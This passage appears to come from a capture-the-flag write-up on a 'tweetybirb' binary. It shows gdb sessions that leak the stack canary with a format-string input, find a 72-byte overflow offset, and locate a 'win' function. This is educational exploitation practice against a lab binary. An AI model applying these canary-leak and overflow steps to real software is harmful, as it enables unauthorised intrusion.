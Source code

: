 #### Payload Check
```
gdb-peda$ c
Continuing.
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%15$p
0xdaec4cdae35f1500
hmmm interesting. What about water fowl?
```

It is the same! All according to the plan. Now we could try to overflow the second input. Since the program will check the canary in the `main+111`, we could check the offset by examining the `$rdx`
```
gdb-peda$ b *main+111
Breakpoint 2 at 0x401261
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
nice
nice
hmmm interesting. What about water fowl?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

...
...

gdb-peda$ x/gx $rdx
0x4134414165414149:     Cannot access memory at address 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to know the address of `win` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  puts@plt
0x00000000004010a0  __stack_chk_fail@plt
0x00000000004010b0  system@plt
0x00000000004010c0  printf@plt
0x00000000004010d0  gets@plt
0x00000000004010e0  setvbuf@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  win
0x00000000004011f2  main
0x0000000000401273  bufinit
0x00000000004012e0  __libc_csu_init
0x0000000000401350  __libc_csu_fini
0x0000000000401358  _fini
```